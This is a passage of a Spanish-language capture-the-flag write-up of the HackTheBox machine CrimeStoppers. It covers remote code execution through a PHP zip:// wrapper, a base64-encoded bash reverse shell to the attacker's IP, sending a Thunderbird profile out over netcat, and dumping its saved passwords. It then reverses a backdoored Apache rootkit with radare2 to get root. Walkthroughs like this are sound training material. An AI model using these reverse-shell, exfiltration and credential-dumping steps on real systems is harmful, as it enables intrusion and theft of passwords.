❱ file 7aaa6229865be1a673429fe1df2d9317bea8e863 
7aaa6229865be1a673429fe1df2d9317bea8e863: Zip archive data, at least v1.0 to extract
❱ mv 7aaa6229865be1a673429fe1df2d9317bea8e863 7aaa6229865be1a673429fe1df2d9317bea8e863.zip
❱ md5sum *.zip
ad1e77bf2c8214b174b083f9ea0b0c97  7aaa6229865be1a673429fe1df2d9317bea8e863.zip
ad1e77bf2c8214b174b083f9ea0b0c97  acata.zip
```

Perfectisimooooo, son iguales, así que su contenido también es igual, por lo queeeeeeeeeeeeeee:

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/7aaa6229865be1a673429fe1df2d9317bea8e863
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_ZIPwrapperUPdone_FindZIPerror.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Peeeeeero si referenciamos algún archivo que tenga dentrooooo:

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/7aaa6229865be1a673429fe1df2d9317bea8e863%23hola
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_ZIPwrapperUPdone_FindZIPdone.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Desaparece el errooooooooooooooooooooooooooor...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120google_gif_froganxious.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

YYYYYYYYYYYYY si le pasamos el parámetro `xmd` con algún comando, ejemplo `id`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_ZIPwrapperUPdone_FindZIPdone_RCEid.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

TAMOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOS, conseguimos **RCEEEEEEEEEEE**, dios, como costó (: pero que guapachoso.

Bien, ya tenemos ejecución remota de comandos, démosle un mejor formato a nuestro script para desde el subir el contenido `.zip` y también ejecutar comandos...

> [rceZIPwrapper.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/crimestoppers/rceZIPwrapper.py)

...

Generemos una reverse Shell, pongámonos en escucha por el puerto **4433**:

```bash
❱ nc -lvp 4433
```

Ahora (una de las maneras), generaremos un texto que tenga exactamente nuestra reverse shell:

```bash
❱ printf '#!/bin/bash \nbash -i >& /dev/tcp/10.10.14.6/4433 0>&1'
#!/bin/bash 
bash -i >& /dev/tcp/10.10.14.6/4433 0>&1
```

Ahora lo encodeamos a `base64`:

```bash
❱ printf '#!/bin/bash \nbash -i >& /dev/tcp/10.10.14.6/4433 0>&1' | base64
IyEvYmluL2Jhc2ggCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMzIDA+JjE=
```

Tomamos esa cadena y como comando hacia la máquina le indicamos:

1. Decodea la cadena que te estoy pasando en **base64**.
2. Y el resultado quiero que me lo interpretes con una `bash`. O sea, ejecútame lo que sea que venga...

---

```bash
❱ python3 rceZIPwrapper.py -i 10.10.14.6 -c 'echo IyEvYmluL2Jhc2ggCgpiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYvNDQzMyAwPiYx | base64 -d | bash'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_script_sendREVSH_wwwdataRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listooooones, tamos dentro, hacemos [tratamiento de la **TTY**](https://lanzt.gitbook.io/cheatsheet-pentest/tty) para tener una shell bonita, que no nos de problemas si es que queremos ejecutar `CTRL+C`, nos permita tener histórico y que podamos movernos entre comandos...

Sigamos 🚣

...

# Movimiento lateral : Thunderbird [#](#thunderbird-decrypt) {#thunderbird-decrypt}

Listando que usuario existen el sistema nos encontramos con `dom`, si vamos a su `/home` entonces este árbol de directorios:

```bash
www-data@ubuntu:/home/dom$ ls -la
total 44
drwxr-xr-x 5 dom  dom  4096 Dec 25  2017 .
drwxr-xr-x 3 root root 4096 Dec 16  2017 ..
-rw------- 1 dom  dom    52 Dec 16  2017 .Xauthority
-rw------- 1 dom  dom     5 Dec 22  2017 .bash_history
-rw-r--r-- 1 dom  dom   220 Dec 16  2017 .bash_logout
-rw-r--r-- 1 dom  dom  3771 Dec 16  2017 .bashrc
drwx------ 2 dom  dom  4096 Dec 16  2017 .cache
-rw-r--r-- 1 dom  dom   675 Dec 16  2017 .profile
drwx------ 2 dom  dom  4096 Dec 16  2017 .ssh
-rw-r--r-- 1 dom  dom     0 Dec 16  2017 .sudo_as_admin_successful
drw-r-xr-x 3 root root 4096 Dec 16  2017 .thunderbird
-r--r--r-- 1 root root   33 Aug  2 13:20 user.txt
```

Hay un directorio oculto algo llamativo y que no había visto antes en otras máquinas: `.thunderbird`, veamos que hay en su contenido:

```bash
www-data@ubuntu:/home/dom/.thunderbird$ ls -la
total 12
drw-r-xr-x 3 root root 4096 Dec 16  2017 .
drwxr-xr-x 5 dom  dom  4096 Dec 25  2017 ..
drw-r-xr-x 9 root root 4096 Dec 16  2017 36jinndk.default
```

```bash
www-data@ubuntu:/home/dom/.thunderbird$ cd 36jinndk.default/
www-data@ubuntu:/home/dom/.thunderbird/36jinndk.default$ ls -a 
.                             blist.sqlite            cookies.sqlite      formhistory.sqlite         minidumps           saved-telemetry-pings    webappsstore.sqlite-shm
..                            blocklist-addons.json   cookies.sqlite-shm  global-messages-db.sqlite  panacea.dat         search.json.mozlz4       webappsstore.sqlite-wal
.parentlock                   blocklist-gfx.json      cookies.sqlite-wal  gmp                        permissions.sqlite  secmod.db                xulstore.json
ImapMail                      blocklist-plugins.json  crashes             history.mab                places.sqlite       session.json
Mail                          blocklist.xml           datareporting       key3.db                    places.sqlite-shm   sessionCheckpoints.json
SiteSecurityServiceState.txt  cert8.db                directoryTree.json  kinto.sqlite               places.sqlite-wal   storage.sqlite
abook.mab                     compatibility.ini       extensions.ini      logins.json                prefs.js            times.json
addons.json                   content-prefs.sqlite    extensions.json     mailViews.dat              revocations.txt     webappsstore.sqlite
```

Ufff, varios archivos, algunos con nombres llamativos como `key3.db`, `logins.json`, `session.json` o `storage.sqlite`. 

Si buscamos en todos los objetos la cadena `username` encontramos algo interesante a la vista:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_wwwSH_thunderbirdF_grepUsername.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Hay unas credenciales encriptadas y referencias hacia el usuario `dom` 😮 puede ser un **rabbit hole** como pueda que no, exploremos:

> **Thunderbird** hace referencia a `Mozilla Thunderbird`, un gestor de correo electrónico, de noticias y de chats. [Más info: "¿Qué es Thunderbird?"](https://www.thunderbird.net/es-MX/about/).

Buscando info relacionada con `decrypt password thunderbird` en internet llegamos a [este foro](http://forums.mozillazine.org/viewtopic.php?f=39&t=2884451) donde podemos destacar cositas:

* Las contraseñas en **Mozilla** son guardadas (o bueno en **2014**) en dos archivos:
  * `signons.sqlite`.
  * `keys3.db`.

Estos objetos deberían estar en una ruta con este formato: `~/.thunderbird/*.default`.

Si nos fijamos concuerda con lo nuestro, ya que tenemos `/home/dom/.thunderbird/36jinndk.default`, así que podemos pensar que `36jinndk` es un perfil que se le generó al usuario `dom`.

> [On linux, the password database is stored in](https://security.stackexchange.com/questions/8780/is-it-possible-to-easily-retrieve-thunderbirds-passwords-with-access-to-hdd?newreg=a4029c04cb954aedb4f60a9201574dc7#comment233382_8819): `/home/$USER/.thunderbird/$RANDOM_STRING.default/signons.sqlite`. 

Bien, si nos fijamos en nuestros objetos el archivo `signons.sqlite` no existe, es ahí cuando llegamos a este nuevo [hilo](https://security.stackexchange.com/questions/109140/how-to-read-the-key3-db-file) que nos habla sobre el archivo `key3.db` y su función que es almacenar la llave necesaria para desencriptar las passwords guardadas por **Mozilla**.

En el hilo una de las respuestas nos indica que el nombre de `logins.json` antes era `signons.sqlite`, así que tamos perfectos y cero preocupados en tener que encontrar otro archivo.

Leyendo nos damos cuenta de que **Thunderbird** genera una ["Master Password"](https://support.mozilla.org/en-US/kb/protect-your-thunderbird-passwords-master-password) vacía o la que indique el usuario, esta **master password** sería la que protegería a tooooodas las contraseñas que se vayan guardando. Por lo que si no contamos con una **master password** (y es necesaria) tendremos que buscar maneras de encontrarla 😨

Profundizando un poco más llegamos a este [nuevo hilo](https://superuser.com/questions/1218631/how-to-read-key3-db-and-logins-json-in-plain-text/1519092) donde referencian dos herramientas que se encargan de desencriptar las contraseñas:

* [firepwd](https://github.com/lclevy/firepwd).
* [firefox_decrypt](https://github.com/unode/firefox_decrypt).

> Pa leer: [Reveal saved Mozilla Firefox passwords](https://blog.tajuma.com/?p=35).

Así que juguemos con las dos, vamos a sus repos y nos las clonamos, empecemos con `firepwd`:

---

## Dumpeamos credenciales de <u>Thunderbird</u> [📌](#dump-thunderbird) {#dump-thunderbird}

🎈 **firepwd.py**:

```bash
❱ python3 firepwd.py 
cannot find key4.db or key3.db
```

Directamente nos pide el archivo `key3.db`, así que pasémoslo a nuestra máquina y volvamos a ejecutar:

```bash
❱ python3 firepwd.py 
 SEQUENCE {
   SEQUENCE {
   ...
...
missing logins.json or signons.sqlite
...
```

Nos sale error, hace falta el archivo `logins.json`, así que también lo pasamos a nuestra máquina y volvemos a ejecutar:

```bash
❱ python3 firepwd.py 
 SEQUENCE {
   SEQUENCE {
   ...
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_script_firepwd_passwordsDumped.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perrrrrfecto, nos devuelve una contraseña del servicio `imap` y `smtp`, podemos probar a hacer reutilización de contraseñas a ver si son funcionales en el sistema como el usuario `dom`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_wwwSH_su_dom_DONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listooooooooooooones, somos **dom** (: antes de seguir veamos rápidamente como hubiera sido con `firefox_decrypt.py`:

🎈 **firefox_decrypt.py**:

Este script nos pide la ruta donde están tooooooodos los archivos del perfil, o sea: `36jinndk.default`, pues hagamos la sencilla, [comprimamos todo el directorio](https://www.cyberciti.biz/faq/how-do-i-compress-a-whole-linux-or-unix-directory/) y nos lo pasamos a nuestro sistema para posteriormente ejecutar el programa haciendo referencia a ese directorio:

```bash
www-data@ubuntu:/tmp$ tar -zcvf thunderthunder.tar.gz /home/dom/.thunderbird/36jinndk.default/
/home/dom/.thunderbird/36jinndk.default/
/home/dom/.thunderbird/36jinndk.default/webappsstore.sqlite
...
/home/dom/.thunderbird/36jinndk.default/crashes/store.json.mozlz4
```

```bash
www-data@ubuntu:/tmp$ ls
thunderthunder.tar.gz
```

Ahora en nuestra máquina nos ponemos en escucha sobre un puerto y le indicamos que todo lo que llegue por ese puerto lo guarde en un archivo llamado `thunderthunder.tar.gz`:

```bash
❱ nc -lvp 4434 > thunderthunder.tar.gz
```

Y en la máquina víctima le decimos que envíe el contenido de `thunderthunder.tar.gz` esperando 10 segundos para que se copie tooooodo todito:

```bash
www-data@ubuntu:/tmp$ nc -w 10 10.10.14.6 4434 < thunderthunder.tar.gz
```

Recibimos la petición en nuestro listener, esperamos y ahora validamos la integridad del archivo:

```bash
www-data@ubuntu:/tmp$ md5sum thunderthunder.tar.gz 
f6e7ceae0c34fc66890c6072a3cddee5  thunderthunder.tar.gz
❱ md5sum thunderthunder.tar.gz 
f6e7ceae0c34fc66890c6072a3cddee5  thunderthunder.tar.gz
```

Lo descomprimimos, (se genera una carpeta `home`, ahí esta el perfil de **Mozilla**, no te asustes) y ejecutamos el script:

```bash
❱ tar xvf thunderthunder.tar.gz 
❱ mv home/dom/.thunderbird/36jinndk.default/ .
❱ chmod 755 36jinndk.default/
❱ python3 firefox_decrypt.py 36jinndk.default/
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_script_firefow_decrypt_passwordsDumped.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, conseguimos la contraseña, así que con cualquiera de las dos herramientas lo hubiéramos logrado (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Después de una ardua enumeración volvemos al directorio `.thunderbird` y nos escondemos dentro de otro directorio, en este caso de `ImapMail`:

```bash
dom@ubuntu:~/.thunderbird/36jinndk.default$ cd ImapMail/
dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail$ ls
crimestoppers.htb  crimestoppers.htb.msf
dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail$ cd crimestoppers.htb/
```

Dentro de `crimestoppers.htb/` hay varios archivos:

```bash
dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ ls -la
total 72
drw-r-xr-x 2 root root 4096 Dec 16  2017 .
drw-r-xr-x 3 root root 4096 Dec 16  2017 ..
-rw-r-xr-x 1 root root 1268 Dec 16  2017 Archives.msf
-rw-r-xr-x 1 root root 2716 Dec 16  2017 Drafts-1
-rw-r-xr-x 1 root root 2599 Dec 16  2017 Drafts-1.msf
-rw-r-xr-x 1 root root 1265 Dec 16  2017 Drafts.msf
-rw-r-xr-x 1 root root 1024 Dec 16  2017 INBOX
-rw-r-xr-x 1 root root 4464 Dec 16  2017 INBOX.msf
-rw-r-xr-x 1 root root 1268 Dec 16  2017 Junk.msf
-rw-r-xr-x 1 root root   25 Dec 16  2017 msgFilterRules.dat
-rw-r-xr-x 1 root root 7767 Dec 16  2017 Sent-1
-rw-r-xr-x 1 root root 4698 Dec 16  2017 Sent-1.msf
-rw-r-xr-x 1 root root 1263 Dec 16  2017 Sent.msf
-rw-r-xr-x 1 root root 1271 Dec 16  2017 Templates.msf
-rw-r-xr-x 1 root root 1620 Dec 16  2017 Trash.msf
```

Estos hacen referencia a los distintos buzones del correo de `dom`, al recorrer algunos encontramos cositas interesantes:

```bash
dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ cat INBOX
```

```html
From - Sat Dec 16 11:47:00 2017
X-Mozilla-Status: 0001
X-Mozilla-Status2: 00000000
Return-Path: WhiteRose@DarkArmy.htb
Received: from [172.16.10.153] (ubuntu [172.16.10.153])
        by DESKTOP-2EA0N1O with ESMTPA
        ; Sat, 16 Dec 2017 14:46:57 -0500
To: dom@CrimeStoppers.htb
From: WhiteRose <WhiteRose@DarkArmy.htb>
Subject: RCE Vulnerability
Message-ID: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
Date: Sat, 16 Dec 2017 11:46:54 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

Hello,

I left note on "Leave a tip" page but no response.  Major vulnerability 
exists in your site!  This gives code execution. Continue to investigate 
us, we will sell exploit!  Perhaps buyer will not be so kind.

For more details place 1 million ecoins in your wallet.  Payment 
instructions will be sent once we see you move money.
```

Un correo de `darkarmy`, ya nos habíamos encontrado con ellos al inicio de la máquina, acá hacen referencia a la misma explotación del wrapper que nos permitió conseguir **RCE**. Si seguimos mirando hay más correos:

Los correos que `dom` envió:

```bash
dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ cat Sent-1
```

La respuesta a `darkarmy`:

```bash
From
Subject: Re: RCE Vulnerability
To: WhiteRose <WhiteRose@DarkArmy.htb>
References: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
From: dom <dom@crimestoppers.htb>                              
Message-ID: <18ea978c-f4f3-58e9-28fa-70f1a7b28664@crimestoppers.htb>    
Date: Sat, 16 Dec 2017 11:49:27 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
In-Reply-To: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

If we created a bug bounty page, would you be open to using them as a
middle man?  Submit the bug, they will verify the existence and handle
the payment.

I don't know how this ecoins things work.

On 12/16/2017 11:46 AM, WhiteRose wrote:
> Hello,
>
> I left note on "Leave a tip" page but no response.  Major
> vulnerability exists in your site!  This gives code execution.
> Continue to investigate us, we will sell exploit!  Perhaps buyer will 
> not be so kind.
>
> For more details place 1 million ecoins in your wallet.  Payment
> instructions will be sent once we see you move money.
>
...
```

Le adjunta a `santiago` lo hablado con la **darkarmy**:

```bash
...
From                                                                                                                                                                                            
Subject: Fwd: Re: RCE Vulnerability                                                                                                                                                             
References: <18ea978c-f4f3-58e9-28fa-70f1a7b28664@crimestoppers.htb>
To: santiago@crimestoppres.htb
From: dom <dom@crimestoppers.htb>
X-Forwarded-Message-Id: <18ea978c-f4f3-58e9-28fa-70f1a7b28664@crimestoppers.htb>
Message-ID: <24afa630-bf3c-5361-9c20-969bf934bd14@crimestoppers.htb>
Date: Sat, 16 Dec 2017 11:55:50 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
In-Reply-To: <18ea978c-f4f3-58e9-28fa-70f1a7b28664@crimestoppers.htb>
Content-Type: multipart/alternative;
 boundary="------------6B48F005D20D18C4F951CD41" 
Content-Language: en-US

This is a multi-part message in MIME format.
--------------6B48F005D20D18C4F951CD41
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit

Did you know anything about this?  Anyways, I'm trying to get them to 
agree to an alternative form of payment where we can better track the 
recipient.

Hope the DarkArmy thinks we're a bunch of dummies that don't know 
anything about eCoin.
...
```

Y un correo hacia `elliot`:

```bash
From 
To: elliot@ecorp.htb
From: dom <dom@crimestoppers.htb>
Subject: Potential Rootkit
Message-ID: <54814ded-5024-79db-3386-045cd5d205b2@crimestoppers.htb>
Date: Sat, 16 Dec 2017 12:55:24 -0800 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

Elliot.

We got a suspicious email from the DarkArmy claiming there is a Remote 
Code Execution bug on our Webserver.  I don't trust them and ran 
rkhunter, it reported that there a rootkit installed called: 
apache_modrootme backdoor.

According to my research, if this rootkit was on the server I should be 
able to run "nc localhost 80" and then type "get root" to get a root 
shell.   However, the server just errors out without providing any shell 
at all.  Would you mind checking if this is a false positive?
```

🙀 ufff, en este último nos hablan de un `rootkit` que fue descubierto con ayuda de la herramienta **rkhunter**. El **rootkit** se hace llamar `apache_modrootme`.

Nos indica que según su búsqueda si el **rootkit** existiera en el sistema, debería ejecutar `nc localhost 80` y después escribir `get root` para obtener una **Shell como el usuario root**, pero que una vez ingresa el `get root` no pasa nada y solo ve errores...

Opa, pues interesante, si nos vamos a la web rápidamente encontramos el repositorio del rootkit:

* [https://github.com/sajith/mod-rootme](https://github.com/sajith/mod-rootme).

Pero antes de abordar esto, conozcamos que es un `rootkit`:

💣 *Un **rootkit** es un software que permite tener acceso total a un sistema, las mejor llamadas "puertas traseras", las cuales nos generan **persistencia** en una máquina, se caracterizan por pasar desapercibidas en toooooodo el sistema e incluso difíciles de encontrar por analizadores de **rootkits**. [Más info: avast](https://www.avast.com/es-es/c-rootkit).*

Bien, sigamos...

---

## Encontramos <u>rootkit</u> en el sistema [📌](#rootkit-found) {#rootkit-found}

Según la descripción del `rootkit` vemos su uso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120google_rootkitrepo_files.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos dos referencias a archivos, busquémoslos en el sistema:

```bash
dom@ubuntu:~$ ls -la /etc/apache2/mods-available/rootme.load /usr/lib/apache2/modules/mod_rootme.so
-rw-r--r-- 1 root root    64 Dec 16  2017 /etc/apache2/mods-available/rootme.load
-rw-r----- 1 root dom  48584 Dec 22  2017 /usr/lib/apache2/modules/mod_rootme.so
```

```bash
dom@ubuntu:~$ file /etc/apache2/mods-available/rootme.load /usr/lib/apache2/modules/mod_rootme.so
/etc/apache2/mods-available/rootme.load: ASCII text
/usr/lib/apache2/modules/mod_rootme.so:  ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=792d97353c062bb316fbb45f6109ade9a87591c7, not stripped
```

Bien, una descripción y el binario del `rootkit`. Intentemos hacerlo funcionar así como nos indicaba el correo (y el repo):

```bash
dom@ubuntu:~$ nc localhost 80
get root
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>
```

Pero sip, obtenemos errores... 

🎿 Sabemos que existe un `rootkit` en el sistema, pero si intentamos usarlo como en el repo (o en el correo) no nos funciona, pues movámoslo hacia nuestra máquina y hagamos un análisis estático del binario, pueda que los atacantes lo hayan modificado para que el uso sea exclusivamente de ellos:

```bash
❱ nc -lvp 4433 > mod_rootme
```

```bash
dom@ubuntu:~$ nc -w 20 10.10.14.6 4433 < /usr/lib/apache2/modules/mod_rootme.so
```

Listones.

---

## Hacemos reversing hacia el <u>rootkit</u> [📌](#rootkit-r2) {#rootkit-r2}

Jugaremos con [radare2](https://github.com/radareorg/radare2).

> [Radare2: abriendo las puertas al reversing](https://www.welivesecurity.com/la-es/2016/08/17/radare2-reversing/).

* [Brutal post para adentrarte en el mundo del reversing y entender algunas instrucciones](http://seguesec.blogspot.com/2011/01/principios-en-ensamblador.html).
* [Guia super completa para el uso de **radare2**](https://book.rada.re/).

Lo cargamos, analizamos las funciones (`aaa`) del binario y las imprimimos (`afl`):

```bash
❱ r2 mod_rootme 
[0x00000f70]> aaa
...
[0x00000f70]> afl
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_r2_afl.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, todas con nombres llamativos, pero existe una que se relaciona con nuestra máquina, ¿cuál es? Exacto, `sym.darkarmy`, pues pasemos el lenguaje máquina a lenguaje ensamblador e intentemos (jaaaaaa 😂) entender que esta pasando en esa función, usamos `pdf @` que seria `print disassemble function @ nombre_de_la_funcion`:

```bash
[0x00000f70]> pdf @ sym.darkarmy
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_r2_pdf_darkarmy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

🖤 ***Esto es lo que me gusta de <u>radare2</u>, lindos colores y fácil de ver los flujos :P***

Bien, de primeras nos fijamos en el comentario "`HackTheBox`", pero que realmente es una cadena (`str`) que su dirección en memoria esta siendo guardada en el registro `rsi`.

Arriba de esta instrucción vemos el mismo proceso solo que ahora en lugar de una `str` toma una dirección de memoria y la guarda en el registro `rdi`.

* [lea (Load Effective Address)](https://es.stackoverflow.com/questions/89727/para-que-sirve-lea-en-ensamblador).

Si nos fijamos hay un loop el cual da 10 iteraciones:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_r2_pdf_darkarmy_drawLoop.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listos, algo llamativo es que hace un `xor` por cada byte, compara la string `HackTheBox` con el valor que tenga la dirección `0x00001bf2`, por lo que podemos pensar que `HackTheBox` es la llave necesaria para jugar con el `xor`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120google_xor_example.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues veamos el contenido de esa dirección:

```bash
[0x00000f70]> pxw @ 0x00001bf2
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_r2_pxw_1bf2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora, si recordamos el bucle hace 10 iteraciones, por lo que de ese output de arriba debemos tomar los 10 caracteres:

```bash
[0x00000f70]> x/10x 0x00001bf2
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00001bf2  0e14 0d38 3b0b 0c27 1b01
```

Bien, ya tenemos nuestra posible key y los valores con los que esta haciendo el `xor`, pues hagamos un script rápido en **Python** que nos devuelva el resultado de esa operación:

* [Hay un ejemplo gráfico bien lindo acá para entender **XOR** - XOR Python Byte Strings](https://nitratine.net/blog/post/xor-python-byte-strings/).
* [Nos basaremos en este ejemplo para nuestro script](https://subscription.packtpub.com/book/networking_and_servers/9781789534443/1/ch01lvl1sec13/xor).

---

```py
#!/usr/bin/python3

'''
0e14 0d38 3b0b 0c27 1b01
'''

key = "HackTheBox"
xor_value = '\x0e\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01'
text = ""

for i in range(len(xor_value)):
    '''
    xor_hex = Tomamos cada valor hexadecimal
    key_value = len(key) = 10   |   0/10 .. 1/10 .. 2/10 ..   |   Extraemos cada valor de la key 
    xor_result = Pasamos cada valor ascii a su valor decimal y hacemos la comparativa XOR.
    '''

    xor_hex = xor_value[i]
    key_value = key[i%(len(key))]
    xor_result = ord(key_value) ^ ord(xor_hex)

    # Y ahora tomamos cada valor decimal y lo pasamos a su valor ascii, así juntamos toda la cadena.
    text += chr(xor_result)

print(text)

'''
    # Así podemos ver como se genera el XOR:
    print(bin(ord(key_value))[2:].zfill(8))
    print(bin(ord(xor_hex))[2:].zfill(8))
    print("----------")
    print(bin(xor_result)[2:].zfill(8))
    print()
'''
```

Perfecto, si ejecutamos el script, vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_script_xorKEY_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa, interesante, si lo concatenamos con nuestra enumeración (que no puse antes para no enredar) del binario vemos la función `sym.rootme_post_read_request` que es la que valida lo que le pasemos cuando ejecutamos `nc localhost 80`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_r2_pdf_postREADrequests.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahí vemos que toma un argumento, así que podemos probar esa cadena devuelta por el programa ahora sobre el `rootkit`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_domSH_rootkitDONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PERFECTOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOo, tenemos el `rootkit` en funcionamiento, por lo tanto tenemos una Shell como el usuario **root** (:

...

# Post-Explotación: Accedemos por <u>SSH</u> usando <u>IPv6</u> [#](#ssh-ipv6) {#ssh-ipv6}

**IppSec** nos deja una nota:

```bash
root@ubuntu:/root# cat Congratulations.txt 
Hope you enjoyed the machine! The root password is crackable, but I would be surprised if anyone managed to crack it without watching the show.  But who knows it is DESCrypted after all so BruteForce is possible.

Oh and kudo's if you just SSH'd in via IPv6 once you got dom's pw :)

-Ippsec
```

El tema del crackeo lo intenté, pero nadita, también nos dice que podemos establecer una `SSH` por medio de un direccionamiento `IPv6`, pues intentémoslo:

* [How to ssh to IPv6 address on Linux](https://linuxconfig.org/how-to-ssh-to-ipv6-address-on-linux/).

---

```bash
root@ubuntu:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:6c:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.80/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:6c2b/64 scope global mngtmpaddr dynamic 
       valid_lft 86286sec preferred_lft 14286sec
    inet6 fe80::250:56ff:feb9:6c2b/64 scope link 
       valid_lft forever preferred_lft forever
```

Nuestra interfaz es la `ens33`, tomamos su dirección IPv6:

```bash
inet6 dead:beef::250:56ff:feb9:6c2b
```

Y ahora desde nuestra máquina nos conectamos a esa dirección con el usuario `dom` (que tenemos credenciales):

```bash
❱ ssh dom@dead:beef::250:56ff:feb9:6c2b
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_ssh_domSH_ipv6.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Peeeererererfecto, ahora sí, veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Una parte final muuuuuy dolorosa mentalmente hablando 😆 

Linda experiencia, muy loca y sobre todo muy bien encaminada. Me encanto la parte de criptografía, a ser verdad esta fue en mucho tiempo mi reencuentro con ella así que no fue muy.. ¿llevadero? jajaj, pero igual refrescamos ideas y sobre todo aprendimos un montón. 

¡BRUTAL!

